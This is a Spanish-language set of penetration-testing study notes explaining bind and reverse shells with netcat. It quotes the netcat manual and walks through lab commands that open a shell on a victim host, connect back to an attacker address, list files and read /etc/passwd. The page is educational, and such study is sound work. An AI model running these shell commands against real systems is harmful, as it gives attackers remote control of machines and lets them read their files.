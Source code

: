 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Invertir y vincular shells(Reverser/Bind Shells)

Un _shell_ es una utilidad que actúa como interfaz entre un usuario y el sistema operativo.&#x20;

En Linux existen varios entornos de shell, como Bash, ksh y tcsh.En Windows el shell es el símbolo del sistema , que se invoca mediante cmd.exe.

Windows PowerShell es un shell de Microsoft más nuevo que combina la antigua funcionalidad CMD con un nuevo conjunto de instrucciones de scripting/cmdlet con funcionalidad de administración del sistema integrada. Los cmdlets de PowerShell permiten a los usuarios y administradores automatizar tareas complicadas con scripts reutilizables.

Con un shell de enlace, un atacante abre un puerto o un escucha en el sistema comprometido y espera una conexión. Esto se hace para conectarse a la víctima desde cualquier sistema y ejecutar comandos y manipular aún más a la víctima.&#x20;

<img src="../../../.gitbook/assets/file.excalidraw.svg" alt="" class="gitbook-drawing">

Un shell inverso es una vulnerabilidad en la que un sistema atacante tiene un oyente (puerto abierto y la víctima inicia una conexión con el sistema atacante.

<img src="../../../.gitbook/assets/file.excalidraw (3).svg" alt="" class="gitbook-drawing">

Netcat es una de las mejores y más versátiles herramientas para probadores de lápiz porque es liviana y muy portátil. Incluso puede ver esto explicado en los primeros párrafos de la página de manual **de netcat** , como se muestra en el Ejemplo 8-1.

_La herramienta Netcat._

```
NAME
                 nc - TCP/IP swiss army knife

SYNOPSIS
             nc [-options] hostname port[s] [ports] ...
             nc -l -p port [-options] [hostname] [port]

DESCRIPTION
             netcat is a simple unix utility which reads and writes
data across network connections, using TCP or UDP protocol. It is
designed to be a reliable "back-end" tool that can be used directly
or easily driven by other programs and scripts. At the same time, it
is a feature-rich network debugging and exploration tool, since it can
create almost any kind of connection you would need and has several
interesting built-in capabilities. Netcat, or "nc" as the actual
program is named, should have been supplied long ago as another one
of those cryptic but standard Unix tools.

In the simplest usage, "nc host port" creates a TCP connection to the
given port on the given target host. Your standard input is then sent
to the host, and anything that comes back across the connection is
sent to your standard output. This continues indefinitely, until the
network side of the connection shuts down. Note that this behavior is
different from most other applications which shut everything down and
exit after an end-of-file on the standard input.

Netcat can also function as a server, by listening for inbound
connections on arbitrary ports and then doing the same reading and
writing. With minor limitations, netcat doesn't really care if it
runs in "client" or "server" mode -- it still shovels data back and
forth until there isn't anymore left. In either mode, shutdown can be
forced after a configurable time of inactivity on the network side.

And it can do this via UDP too, so netcat is possibly the "udp
telnet-like" application you always wanted for testing your UDP-mode
servers. UDP, asthe "U" implies, gives less reliable data transmission
than TCP connections and some systems may have trouble sending large
amounts of data that way, but it's still a useful capability to have.

You may be asking "why not just use telnet to connect to arbitrary
ports?" Valid question, and here are some reasons. Telnet has the
"standard input EOF" problem, so one must introduce calculated delays
in driving scripts to allow network output to finish. This is the
main reason netcat stays running until the network side closes.
Telnet also will not transfer arbitrary binary data, because certain
characters are interpreted as telnet options and are thus removed from
the data stream. Telnet also emits some of its diagnostic messages to
standard output, where netcat keeps such things religiously separated
from its output and will never modify any of the real data in
transit unless you really want it to. And of course, telnet is
incapable of listening for inbound connections, or using UDP instead.
Netcat doesn't have any of these limitations, is much smaller and
faster than telnet, and has many other advantages.

```

Veamos Netcat en acción. Un atacante podría usar el comando **nc -lvp 1234 -e /bin/bash** en el sistema comprometido (192.168.78.6) para crear un escucha en el puerto **1234** y ejecutar ( **-e** ) el shell Bash ( **/bin/bash** ). Esto se demuestra en el ejemplo 8-2. Netcat utiliza entrada estándar (stdin), salida estándar (stdout) y error estándar (stderr) para el socket IP.

C_reación de un shell de enlace utilizando Netcat._

```
omar@jorel:~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...

```

**NOTA** En los sistemas Windows, puede ejecutar la utilidad del símbolo del sistema cmd.exe con el comando **nc -lvp 1234 -e cmd.exe** Netcat.

Como se muestra en el Ejemplo 8-3, en el sistema atacante (192.168.78.147), se utiliza el comando **nc -nv 192.168.78.6 1234 para conectarse con la víctima.** Una vez que el atacante (192.168.78.147) se conecta con la víctima (192.168.78.6), se invoca el comando **ls** y se muestran tres archivos en la pantalla del atacante.

_**Ejemplo 8-3**_ _: Conexión al Bind Shell mediante Netcat_

```
root@kali:~# nc -nv 192.168.78.6 1234
(UNKNOWN) [192.168.78.6] 1234 (?) open
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
```

Cuando el atacante se conecta, el mensaje resaltado en el ejemplo 8-4 se muestra en el sistema de la víctima.

_**Ejemplo 8-4**_ _: un atacante conectado a una víctima mediante un Bind Shell_

```
omar@jorel:~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...
connect to [192.168.78.6] from (UNKNOWN) [192.168.78.147] 52100 
```

Uno de los desafíos de usar shells de enlace es que si el sistema de la víctima está detrás de un firewall, el puerto de escucha podría estar bloqueado. Sin embargo, si el sistema de la víctima puede iniciar una conexión con el sistema atacante en un puerto determinado, se puede utilizar un shell inverso para superar este desafío.

El ejemplo 8-5 muestra cómo crear un shell inverso usando Netcat. En este caso, para crear un shell inverso, puede usar el comando **nc -lvp 666** en el sistema atacante para escuchar un puerto específico (puerto 666 en este ejemplo).

_**Ejemplo 8-5**_ _: creación de un oyente en el sistema atacante para crear un shell inverso usando Netcat_

```
root@kali:~# nc -lvp 666
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt 

```

Luego, en el host comprometido (la víctima), puede usar el comando **nc 192.168.78.147 666 -e /bin/bash** para conectarse al sistema atacante, como se demuestra en el Ejemplo 8-6.

_**Ejemplo 8-6**_ _: Conexión al sistema atacante (Shell inverso) mediante Netcat_

```
omar@jorel:~$ nc 192.168.78.147 666 -e /bin/bash
```

Una vez que el sistema víctima (192.168.78.6) esté conectado al sistema atacante (192.168.78.147), puede comenzar a invocar comandos, como se muestra en las líneas resaltadas en el Ejemplo 8-7.

_**Ejemplo 8-7**_ _: Ejecutar comandos en el sistema de la víctima a través de un Shell inverso_

```
root@kali:~# nc -lvp 666
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

<output omitted for brevity>

```
